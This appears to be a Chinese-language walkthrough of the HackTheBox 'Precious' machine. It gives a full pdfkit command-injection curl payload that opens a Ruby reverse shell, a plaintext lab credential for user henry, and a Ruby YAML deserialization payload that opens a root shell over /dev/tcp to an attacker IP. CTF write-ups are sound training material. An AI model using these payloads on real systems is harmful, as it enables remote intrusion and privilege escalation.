









# 信息收集

## nmap



## web

这是一个将web页面内容转换为pdf的网站



可以从请求头中得知架构以及使用的语言

```
nginx/1.18.0 + Phusion Passenger(R) 6.0.15
Ruby
```



使用exiftool工具查看转换后的pdf文件，可以看到创建者，搜索一下可以知道这是一个ruby语言创建pdf的工具



并且该工具存在远程代码执行的漏洞[PurpleWaveIO/CVE-2022-25765-pdfkit-Exploit-Reverse-Shell：pdfkit <0.8.6 命令注入 shell。](./https://github.com/PurpleWaveIO/CVE-2022-25765-pdfkit-Exploit-Reverse-Shell)



通过该漏洞就可以得到ruby用户的shell，payload：

```
curl 'http://precious.htb' -X POST -H 'User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0' -H 'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8' -H 'Accept-Language: en-US,en;q=0.5' -H 'Accept-Encoding: gzip, deflate' -H 'Content-Type: application/x-www-form-urlencoded' -H 'Origin: http://precious.htb' -H 'Connection: keep-alive' -H 'Referer: http://precious.htb/' -H 'Upgrade-Insecure-Requests: 1' --data-raw 'url=http%3A%2F%2F10.10.16.4%3A8000%2F%3Fname%3D%2520%60+ruby+-rsocket+-e%27spawn%28%22sh%22%2C%5B%3Ain%2C%3Aout%2C%3Aerr%5D%3D%3ETCPSocket.new%28%2210.10.16.4%22%2C4444%29%29%27%60' --output http
```



在用户主目录下有一个不是常规文件夹，搜索得知bundle是一个rubu库，用来生成pdf文件的



其中有配置目录，目录下有henry用户的账号密码



```
henry:Q3c1AqGHtoI0aXAYFH
```

## 提权

该用户可以以sudo权限运行`/opt/update_dependencies.rb`文件

该文件加载了一个yml文件，这个文件是可控的

```
def list_from_file
    YAML.load(File.read("dependencies.yml"))
end
```

[Python](./https://pynative.com/python-yaml/#h-loading-a-yaml-document-safely-using-safe_load) 和 [Ruby](./https://apidock.com/ruby/Psych/safe_load/class) 都有一个用于加载 YAML 的 `safe_load` 函数。这是因为两者都在原始加载和反序列化 YAML 负载方面存在问题，从而导致代码执行。

[这个 gist](./https://gist.github.com/staaldraad/89dffe369e1454eedd3306edc8a7e565#file-ruby_yaml_load_sploit2-yaml) 有一个非常简洁的有效负载示例，可用于在 Ruby 中利用 YAML 反序列化。它基于这篇[更长、更详细的文章 ](./https://www.elttam.com.au/blog/ruby-deserialization/)。

将内容改为可以shellcode

```
---
- !ruby/object:Gem::Installer
    i: x
- !ruby/object:Gem::SpecFetcher
    i: y
- !ruby/object:Gem::Requirement
  requirements:
    !ruby/object:Gem::Package::TarReader
    io: &1 !ruby/object:Net::BufferedIO
      io: &1 !ruby/object:Gem::Package::TarReader::Entry
         read: 0
         header: "abc"
      debug_output: &1 !ruby/object:Net::WriteAdapter
         socket: &1 !ruby/object:Gem::RequestSet
             sets: !ruby/object:Net::WriteAdapter
                 socket: !ruby/module 'Kernel'
                 method_id: :system
             git_set: "bash -c 'sh -i >& /dev/tcp/10.10.16.4/4443 0>&1'"
         method_id: :resolve
```

攻击机监听4443端口，就可以得到root的shell

